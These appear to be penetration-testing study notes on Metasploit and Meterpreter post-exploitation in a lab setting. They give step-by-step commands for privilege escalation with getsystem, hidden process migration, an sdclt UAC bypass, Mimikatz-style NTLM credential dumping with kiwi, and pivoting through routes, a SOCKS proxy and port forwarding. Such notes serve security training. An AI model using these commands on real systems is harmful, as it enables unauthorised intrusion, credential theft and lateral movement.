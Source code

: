 ```yaml
---
tags: metasploit, meterpreter
---
```

Once we gain access to a target machine, we can move on to the post-exploitation phase where we gather information, take steps to maintain our access, pivot to other machines, elevate our privileges, and so on.

## Core Meterpreter Post-Exploitation Features

First start an active Meterpreter session on our target

Check how long the user has been idle:
`idletime`
- If the user is idle for a long time, we can take this opportunity to execute programs or commands which may display a command-line window for a brief moment

Attempt to automatically elevate permissions to NT AUTHORITY\\SYSTEM (for Windows):
1. Start interactive shell:
   `shell`
2. Confirm that our user has either *SeImpersonatePrivilege* or *SeDebugPrivilege* assigned:
   `whoami /priv`
3. Exit shell:
   `exit`
4. Check the current UID:
   `getuid`
5. Elevate privileges:
   `getsystem`
6. Check that the new UID is elevated:
   `getuid`

Move the execution of our Meterpreter payload to a different process:
1. (In Meterpreter command prompt) View all running processes:
   `ps`
2. Migrate our current process to another process (must be of equal of lower privilege):
   `migrate [PID]`
3. (Optional) Check that our original process is not there anymore:
   `ps`
Note that after migration we will be running in the context of the newly migrated process.

Create a new process and migrate to that:
1. Create new process:
   `execute -H -f notepad`
	- `-H`: new process hidden from view
	- `-f notepad`: specify the command or program to run
2. Migrate to the newly spawned process:
   `migrate [PID]`
	- The PID should be shown in the output of the above command

> Meterpreter offers a variety of other interesting post-exploitation modules such as hashdump, which dumps the contents of the SAM database or screenshare, which displays the target machine’s desktop in real-time.

## Post-Exploitation Modules

if the target user is a member of the local administrators group, we can elevate our shell to a high integrity level if we can bypass User Account Control (UAC)
1. Execute a Meterpreter payload binary on the target to get a Meterpreter shell
2. Elevate our privileges:
   `getsystem`
3. Migrate to another process:
   `ps`
   `migrate 8044`
   `getuid`
4. Check the integrity level of the current process:
   `shell`
   `powershell -ep bypass`
   `Import-Module NtObjectManager` (assuming the NtObjectManager module already exists on the target machine)
   `Get-NtTokenIntegrityLevel` (it's Medium in the example)
5. Background currently active channel and session:
   Ctrl + Z then `y`
   `bg`
6. Search for UAC bypass modules:
   `search UAC`\
7. One very effective UAC bypass on modern Windows systems is *exploit/windows/local/bypassuac_sdclt*, which targets the Microsoft binary **sdclt.exe**. This binary can be abused to bypass UAC by spawning a process with integrity level High.
   `use exploit/windows/local/bypassuac_sdclt`
8. Set the options:
   `show options`
   `set SESSION 9` (run it on the currently existing session)
   `set LHOST 192.168.119.4`
9. Run module:
   `run`
10. The module should have opened a new Meterpreter session. Check the integrity level of the process:
    `shell`
    `powershell -ep bypass`
    `Import-Module NtObjectManager` 
    `Get-NtTokenIntegrityLevel` (it's now High in the example)

Besides being able to background an active session and execute modules through it, we can also load extensions directly inside the active session with the load command.
E.g. Kiwi (extension in Meterpreter which provides Mimikatz functionalities)
1. Execute a Meterpreter payload binary on the target to get a Meterpreter shell
2. Elevate our privileges:
   `getsystem`
3. Load the **kiwi** module:
   `load kiwi`
4. Display commands of the kiwi module:
   `help`
5. Retrieve LM/NTLM creds:
   `creds_msv`

## Pivoting with Metasploit

1. Connect to the bind shell on the target
2. Identify other network interface(s):
   `ipconfig`
3. Start a meterpreter shell on target by downloading and executing a meterpreter payload binary
4. Background the Meterpreter session:
   `bg`
5. add a route to a network reachable through a compromised host
   `route add 172.16.5.0/24 12`
	- `172.16.5.0/24`: network information
	- `12`: the session that the route applies to
6. Display current routes:
   `route print`
7. Enumerate this subnet:
   `use auxiliary/scanner/portscan/tcp`
   `set RHOSTS 172.16.5.0/24`
   `set PORTS [range of ports to scan]`
   `run` (in the example, 172.161.5.200 has ports 445 and 3389 open)
8. Then, we can use Metasploit exploits on the open ports

### autoroute module
post-exploitation module to set up pivot routes through an existing Meterpreter session automatically

Remove all routes:
`route flush`

Show defined routes:
`route print`

Activate the autoroute module:
`use multi/manage/autoroute`

Set options:
`show options`
`set session [session ID]` (check session ID with `sessions -l`)

Run module: 
`run`

### server/socks_proxy module
auxiliary module to configure a SOCKS proxy. This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default.

Activate module:
`use auxiliary/server/socks_proxy`

Set options:
`show options`
`set SRVHOST 127.0.0.1`
`set VERSION 5`

Run module:
`run -j` (in background)

Then, on our Kali machine, set up proxychains (see [[SSH Tunneling]]) and use as normal

### portfwd command
Meterpreter command which will forward a specific port to the internal network

Start interaction with session:
`session -i [session ID]`

Create port forward:
`portfwd add -l 3389 -p 3389 -r 172.16.5.200`
- `-l`: specify local host listening port
- `-p`: specify target port
- `-r`: specify target host

Then use commands on our Kali machine as normal

